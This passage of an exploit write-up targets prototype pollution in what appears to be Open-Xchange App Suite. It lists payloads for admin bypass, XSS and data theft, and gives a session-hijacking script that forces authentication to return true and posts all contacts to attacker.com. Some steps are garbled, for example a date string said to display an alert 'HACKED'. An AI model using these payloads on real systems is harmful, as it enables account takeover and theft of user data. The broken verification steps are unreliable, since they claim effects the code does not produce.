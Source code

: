 ### Verify Exploitation  
```javascript  
// Check prototype pollution  
console.log("Prototype pollution verification:");  
console.log({}.isAdmin);  // Should return true  

// Trigger XSS  
document.body.innerHTML = new Date().toString();  
// Should display alert "HACKED"  

// Trigger exfiltration  
JSON.stringify({sensitive: "data"});  
// Check attacker server for received data  
```  


## Detailed Exploitation Catalog  
### Exploit Payloads  
| Attack Type         | Payload                                                                 | Impact                                                                 |  
|---------------------|-------------------------------------------------------------------------|------------------------------------------------------------------------|  
| **Auth Bypass**    | `ox.config.set('__proto__.isAdmin', true)`                             | Grants admin privileges to all users                                   |  
| **XSS Injection**  | `ox.config.set('constructor.prototype.toString', alert)`               | Executes arbitrary JavaScript in application context                   |  
| **Data Theft**     | `ox.config.set('__proto__.toJSON', exfiltrationFunction)`             | Steals sensitive application data                                     |  


### Advanced Scenario Session Hijacking  
```javascript  
// Step 1: Hijack session storage  
ox.config.set('__proto__.session', {  
    user: 'attacker',  
    tokens: ['stolen_token'],  
    isAdmin: true  
});  

// Step 2: Override authentication check  
const originalAuthCheck = ox.security.isAuthenticated;  
ox.config.set('__proto__.isAuthenticated', function() {  
    return true; // Always authenticated  
});  

// Step 3: Access protected resources  
ox.api.get('/appsuite/api/contacts?action=all', function(data) {  
    // Exfiltrate all contacts  
    fetch('https://attacker.com/steal', {  
        method: 'POST',  
        body: JSON.stringify(data)  
    });  
});  
```  
